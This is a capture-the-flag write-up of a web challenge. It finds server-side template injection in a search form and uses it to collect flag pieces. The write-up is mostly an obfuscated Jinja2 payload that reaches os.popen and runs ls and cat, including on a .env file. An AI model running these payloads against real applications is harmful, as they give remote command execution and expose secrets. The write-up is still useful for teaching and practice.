










# Pelumba Negara

> Category: Web Exploitation🕸️




## 🔍 Overview

Visiting the page shows us the search form.


## ✨ Solution

I suspect it may be some injection vulnerabilities. I have tried with SQL injection and it doesn't works, but it works when I inject with the SSTI payload:
```
{{7*7}}  <-- which should return 49
```



So, it is indeed an **SSTI vulnerability**. Let's try to list the file in the server:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```



Try to view the content of the <code>flag.txt</code>:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag.txt')|attr('read')()}}
```



However, the flag is not the real flag:



But, there is another file <code>Minardi2002.txt</code>, try to view the contents:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat Minardi2002.txt')|attr('read')()}}
```



It gives us the youtube link, try to view the link:


Also no flag here. Try to list all the file including the hidden one:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
```



There is a <code>.env</code> file, try to view the content of it:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat .env')|attr('read')()}}
```


It gives us with 3 different files, try to view each content of the files:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /usr/1976.txt')|attr('read')()}}
```



It reveals the last part of the flag finally. Now, we can read the other two part of the flags:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /var/malaysia.txt')|attr('read')()}}
```



Nice, now read the last part of the flag:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /tmp/f1.txt')|attr('read')()}}
```



<details><summary><b>🏳️Flag:</b></summary>
<b>3108{d4r1_Ku4l4_Lumpur_k3_p3nt4s_duni4_Alex_Y00ng_f1rst_M4l4ysi4n_F1_dr1v3r}</b></details>